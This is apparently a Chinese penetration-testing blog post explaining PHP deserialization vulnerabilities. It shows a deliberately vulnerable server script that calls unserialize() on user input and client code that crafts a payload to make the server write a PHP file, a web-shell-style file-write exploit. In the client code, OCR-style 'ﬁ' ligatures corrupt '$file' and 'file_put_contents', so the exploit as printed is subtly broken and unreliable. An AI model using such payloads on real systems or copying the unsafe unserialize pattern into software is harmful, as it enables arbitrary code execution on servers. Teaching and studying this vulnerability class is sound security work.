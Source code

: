 +++
date = "2016-07-25T23:32:52+08:00"
description = ""
draft = false
tags = ["反序列化"]
title = "PHP反序列化漏洞"
topics = ["Pentest"]

+++

### 0x00 关于反序列化漏洞
> 序列化：使用函数serialize()可将实例序列化为字符串  
反序列化：使用函数unserialize()可将序列化的字符串还原  
若服务端有如下代码：
```php
<?php
    class foo{
        public $file = "test.txt";
        public $data = "123456";

        function __destruct(){
            file_put_contents($this->file,$this->data);
        }
    }

    $d = $_REQUEST['str'];
    var_dump($d);
    echo "<br />";
    $tc = unserialize(base64_decode($d));
    var_dump($tc);
?>
```
客户端可构造如下代码生成序列化后的字符串提交给服务端，  
服务端就会生成文件xx.php，内容为<b><?php phpinfo(); ?></b>：
```php
<?php
    class foo {
        public $ﬁle = "test.txt";
        public $data = "123456";
        
        function __destruct() {
            ﬁle_put_contents($this->ﬁle, $this->data);
        }
    }

    $f = new foo();
    $f->ﬁle = "xx.php";
    $f->data = "<?php phpinfo(); ?>";
    echo base64_encode(serialize($f));
?>
```